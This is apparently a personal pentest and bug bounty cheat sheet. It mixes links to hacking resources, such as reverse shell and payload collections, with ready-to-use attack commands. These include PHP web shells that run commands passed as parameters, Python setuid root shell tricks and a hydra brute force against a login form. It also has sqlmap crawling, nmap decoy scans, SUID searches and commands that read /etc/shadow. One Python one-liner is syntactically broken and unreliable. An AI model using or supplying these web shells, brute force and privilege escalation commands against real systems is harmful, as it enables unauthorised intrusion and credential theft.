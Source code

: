 #########################################################\n
https://start.me/p/vjEPvb/thug-bounty # Pentest / Bug bounty bookmarks
https://start.me/p/QRQb0O/trouble-fake # OSINT bookmarks
#########################################################\n
https://github.com/Hack-with-Github/Awesome-Hacking
https://github.com/sehno/Bug-bounty/blob/master/bugbounty_checklist.md
https://github.com/shieldfy/API-Security-Checklist/blob/master/README.md
https://www.jhaddix.com/post/my-xmind-hunt-template-for-hakluke
https://github.com/Ignitetechnologies/Mindmap
#########################################################\n
https://gtfobins.github.io
https://revshells.com
https://cheat.sh/

https://github.com/Orange-Cyberdefense/arsenal
https://github.com/danielmiessler/SecLists
https://github.com/kkrypt0nn/wordlists
https://github.com/fuzzdb-project/fuzzdb

https://github.com/The-Z-Labs/linux-exploit-suggester
https://github.com/carlospolop/PEASS-ng/releases
https://github.com/DominicBreuker/pspy

https://cheatsheetseries.owasp.org/Glossary.html
https://github.com/terjanq/Tiny-XSS-Payloads
https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
https://portswigger.net/web-security/sql-injection/cheat-sheet
https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet

https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php

https://github.com/gnebbia/hydra_notes
https://gist.github.com/sente/4dbb2b7bdda2647ba80b

https://github.com/Proviesec/google-dorks/blob/main/google-dorks-for-git-files.txt
https://github.com/internetwache/GitTools
https://github.com/Ebryx/GitDump

https://wordlists.assetnote.io/
http://web-sniffer.net/
https://scoop.sh/

https://emkei.cz/
#########################################################\n
https://docs.adyen.com/development-resources/testing/test-card-numbers/
#########################################################\n
*********************INSTALL PIP2***********************
sudo apt install python2.7
cd /opt  && sudo curl https://bootstrap.pypa.io/pip/2.7/get-pip.py --output get-pip.py
sudo python2 get-pip.py
#########################################################\n

Cookie Injector: 
https://gist.githubusercontent.com/cryptrz/a142f145d250450f408f19a52e0743b1/raw/e046cfb7cf9a4c8b50174651fef1e79e89faeda7/Cookie%2520Injector%2520(mod%2520FF%2520+%2520Chrome)

#########################################################\n

python3 -c "import pty;pty.spawn('/bin/bash')"
export TERM=xterm

python3 -c 'import os; execl("/bin/sh"; "sh", "-p")'

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/sh")'

sudo openvpn --data-ciphers AES-256-CBC --config <file>

nmap -sS -Pn -D 10.10.10.1,10.10.10.2,ME -F <TARGET>

nmap -sS -Pn -D RND,10.10.55.33,ME,RND -F <TARGET>

nmap -sV --script=vulscan/vulscan.nse <URL>

nmap -p 53 --script dns-brute <URL>

nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse <URL>

nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount <URL>

ffuf -w /path/to/wordlist -t 25 -c -ac -mc 200,204,301,302, 307,400, 401,405 -u https://url.com/FFUF

find / -writable -type f 2>/dev/null

find / -perm -u=s -type f 2>/dev/null

find / -perm -u=s -type f -name <word> 2>/dev/null

sqlmap -u https://target.com/ --dbs --random-agent --forms --crawl=2

john file --wordlist=list.txt --format=Raw-MD5

hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.10 http-post-form "/path/login.php:username=admin&password=^PASS^:Invalid Password!"

<?php system($_GET['cmd']);?>

<?php echo system($_GET['cmd']); ?>

<?php if(isset($_REQUEST['cmd'])){ $cmd = ($_REQUEST['cmd']); system($cmd); die; }?>

To temporarly switch to a bash shell:
exec bash --login

Stabilize a shell on meterpreter:
script /dev/null -c bash
CTRL + Z (nc process into the background)
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash

###########################################################\n
********************LINUX ENUMERATION**********************\n
###########################################################\n
uname -a
cat/proc/version
cat /etc/*-release
cat /proc/cpuinfo
df -a
df -h
cat /etc/shells
whoami
pwd
id
users
cat /etc/passwd
sudo cat /etc/shadow
pinky
w
who -a
last
lastlog
ps
ps -e | more
ps aux | more
top
dpkg -l
route
sudo iptables -L

###########################################################\n
*******************WINDOWS ENUMERATION*********************\n
###########################################################\n

PSTools: https://learn.microsoft.com/en-us/sysinternals/downloads/pstools
Shareenum: https://github.com/CroweCybersecurity/shareenum

systeminfo | findstr /B /C:"OS Name" /C:"OS Version"

###########################################################\n
**********************HTML TEMPLATE************************\n
###########################################################\n

<!DOCTYPE html>
<html lang="en" dir="ltr">
  <head>
    <meta charset="utf-8">
    <title></title>
  </head>
  <body>
    <script type="text/javascript">
      
    </script>
  </body>
</html>
###########################################################
###########################################################
